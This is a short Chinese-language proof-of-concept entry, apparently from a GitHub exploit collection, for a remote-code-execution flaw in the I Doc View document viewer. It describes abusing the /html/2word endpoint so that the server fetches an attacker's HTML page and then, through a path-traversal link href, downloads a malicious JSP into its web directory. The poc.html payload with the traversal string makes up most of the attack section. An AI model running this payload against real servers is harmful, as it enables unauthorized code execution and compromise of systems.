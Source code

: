 # I Doc View任意文件上传漏洞


## I Doc View任意文件上传漏洞
I DOC VIEW是一个在线的文档查看器，其中的/html/2word接口因为处理不当，导致可以远程读取任意文件，通过这个接口导致服务器下载恶意的JSP进行解析，从而RCE。

## POC构造
流程：携带恶意link[href]的html -> 远程获取  -> 解析出href -> 远程获取恶意文件

poc.html
```html

<!DOCTYPE html>
<html lang="en">
<head>
    <title>test</title>  
</head>
<body>
  <link href="/..\..\..\docview\poc.jsp">
</body>
</html>
```
然后构造 `..\..\..\docview\poc.jsp`  这个是文件
![image](https://github.com/wy876/POC/assets/139549762/736f7c0a-4f06-4170-805a-cf1580b69de3)

![image](https://github.com/wy876/POC/assets/139549762/73ab1c2a-ad91-40a3-96b0-0ca978fa9abe)

## 漏洞分析
```
https://mp.weixin.qq.com/s/lDqhDnZGXoRyp2IolQ2odg
https://mp.weixin.qq.com/s/mD4EcVmJ9QPmmMLh6KrZ0g
```

